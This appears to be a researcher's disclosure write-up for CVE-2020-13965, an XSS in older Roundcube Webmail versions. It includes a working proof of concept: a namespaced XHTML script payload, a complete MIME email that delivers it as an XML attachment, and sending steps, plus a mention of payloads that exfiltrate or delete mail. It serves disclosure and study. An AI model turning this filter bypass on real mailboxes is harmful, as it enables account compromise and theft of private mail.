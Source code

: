 # CVE-2020-13965: Cross-Site Scripting (XSS) via Malicious XML Attachment in Roundcube Webmail

A Cross-Site scripting (XSS) vulnerability exists in Roundcube versions before 1.4.5 and 1.3.12.
<br/>
By leveraging the parsing of "text/xml" attachment, an attacker can bypass the Roundcube script filter and execute arbitrary malicious JavaScript in the victim's browser when the malicious attachment is clicked/previewed.

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://roundcube.net/news/2020/06/02/security-updates-1.4.5-and-1.3.12).

### Proof Of Concept:

By leveraging the parsing of XML elements by modern browsers, an attacker can use a "text/xml" attachment that will result in an XSS when the victim previews the attachment.
<br/>
The XHTML content of a malicious file has the following form:
```
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert(1);
</something:script>
```

Now we are interested in creating a valid email with the above file. This can be achieved in multiple ways, but in this case, "[mpack](https://linux.die.net/man/1/mpack)" was used.
<br/>
<strong>Note:</strong> Because "mpack" does not support "text/xml" formats, we use an "application/xml" format which we later manually modify.
<br/>
The resulting email, containing the above XSS will have the following form:
```
Message-ID: <7676.1587651521@tester>
Mime-Version: 1.0
Subject: On Preview Alert
Content-Type: multipart/mixed; boundary="-"

This is a MIME encoded message.  Decode it with "munpack"
or any other MIME reading software.  Mpack/munpack is available
via anonymous FTP in ftp.andrew.cmu.edu:pub/mpack/
---
Content-Type: text/xml; name="alert.xml"
Content-Disposition: inline; filename="alert.xml"

<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert(1);
</something:script>

-----
```

We can then use "[sendmail](https://linux.die.net/man/8/sendmail.sendmail)" or other solutions to send the email to the victim. In this case the victim will be "guest@localhost".
<br/>
The XSS will trigger when the victim clicks on the malicious attachment:
<img src="Victim's%20Browser.png"/>
<img src="XSS.png"/>

#### Implementing an "Advanced" JavaScript Payload

Advanced JavaScript payloads can be used in order to:
- Exfiltrate victim's mails
- Delete victim's mails
- Etc.

For more information about this step you can refer to [CVE-2020-12625](../CVE-2020-12625-Cross%20Site-Scripting%20via%20Malicious%20HTML%20Attachment-Roundcube#implementing-an-advanced-javascript-payload).









